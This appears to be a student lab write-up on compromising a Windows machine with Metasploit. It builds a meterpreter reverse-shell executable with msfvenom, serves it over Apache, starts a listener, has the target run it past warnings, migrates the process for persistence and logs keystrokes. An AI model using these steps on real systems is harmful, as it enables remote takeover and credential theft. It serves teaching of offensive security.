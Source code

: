 # Compromising windows using Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:

![image](https://github.com/M-Nikhil20/Compromising-windows-using-Metasploit/assets/118707852/871a41d1-af11-484f-abe0-e27d58577d2c)




Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:

![image](https://github.com/M-Nikhil20/Compromising-windows-using-Metasploit/assets/118707852/b65f642b-ecfd-4042-8142-f0420f9e671c)




copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/M-Nikhil20/Compromising-windows-using-Metasploit/assets/118707852/45a0d03c-4c31-4e87-ac60-f17ff7c274bb)



Start apache server
sudo systemctl apache2 start

![image](https://github.com/M-Nikhil20/Compromising-windows-using-Metasploit/assets/118707852/25b6f263-ea33-4cd7-8151-2d34f79f7a7b)




Check the status of apache2

![image](https://github.com/M-Nikhil20/Compromising-windows-using-Metasploit/assets/118707852/b091ceaa-6d34-4635-adc5-01605dc97576)



Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT: 

![image](https://github.com/M-Nikhil20/Compromising-windows-using-Metasploit/assets/118707852/26e9fa80-302c-419d-933c-9b9ede035ccb)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![8](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/4cf82361-ac00-46ab-92a2-3f09592d98d5)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/M-Nikhil20/Compromising-windows-using-Metasploit/assets/118707852/115add40-9ba9-4e68-ae62-f5f6b39dc3fb)



To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![image](https://github.com/R-Udayakumar/Compromising-windows-using-Metasploit/assets/118708024/8c859978-ca53-4c49-9a21-c91dff67a007)




## Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/M-Nikhil20/Compromising-windows-using-Metasploit/assets/118707852/84e65563-3437-468f-b789-f81e34a1823f)




keyscan_dump	Shows the keystrokes captured so far

![image](https://github.com/M-Nikhil20/Compromising-windows-using-Metasploit/assets/118707852/44f1d4ad-8590-46f5-96f8-5a961fe0e7d6)





## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
